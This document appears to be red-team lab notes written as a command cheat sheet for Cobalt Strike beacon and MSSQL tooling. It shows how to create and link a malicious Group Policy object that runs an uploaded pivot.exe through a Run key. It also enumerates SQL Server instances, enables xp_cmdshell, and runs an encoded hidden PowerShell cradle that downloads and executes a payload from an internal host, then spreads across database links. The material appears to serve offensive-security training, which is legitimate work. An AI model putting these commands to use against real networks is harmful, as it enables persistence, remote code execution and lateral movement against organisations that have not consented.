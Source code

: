 ```powershell
4. Create a new GPO & configure it to execute attacker binary via Registry loaded from shared location
beacon> powerpick New-GPO -Name "Evil GPO"

beacon> powerpick Find-DomainShare -CheckShareAccess
beacon> cd \\dc-2\software
beacon> upload C:\Payloads\pivot.exe
beacon> powerpick Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\pivot.exe" -Type ExpandString

5. Link newly created GPO with OU
beacon> powerpick Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"
```
## MSSQL Servers
```powershell
# Use PowerUpSQL for enumerating MS SQL Server instances
beacon> powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
beacon> powerpick Get-SQLInstanceDomain

# Check access to DB instance with current user session
beacon> powerpick Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl
beacon> powerpick Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"
beacon> powerpick Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo

# Query execution
beacon> powerpick Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"

# Command Execution
beacon> powerpick Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults

# Interactive access and RCE (xp_cmdshell 0 means it is disabled, needs to be enabled)
ubuntu@DESKTOP-3BSK7NO ~> proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25 -debug

SQL> EXEC xp_cmdshell 'whoami';
SQL> SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';
SQL> sp_configure 'Show Advanced Options', 1; RECONFIGURE;
SQL> sp_configure 'xp_cmdshell', 1; RECONFIGURE;

SQL> EXEC xp_cmdshell 'powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBwAGkAdgBvAHQAIgApAA==';

# Lateral Movement (using DB Links)
beacon> powerpick Get-SQLServerLink -Instance "sql-2.dev.cyberbotic.io,1433"
beacon> powerpick Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433"
beacon> powerpick Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433" -Query "exec master..xp_cmdshell 'whoami'"

SQL> SELECT * FROM master..sysservers;
SQL> SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
SQL> SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');

SQL> EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
SQL> EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql-1.cyberbotic.io]

```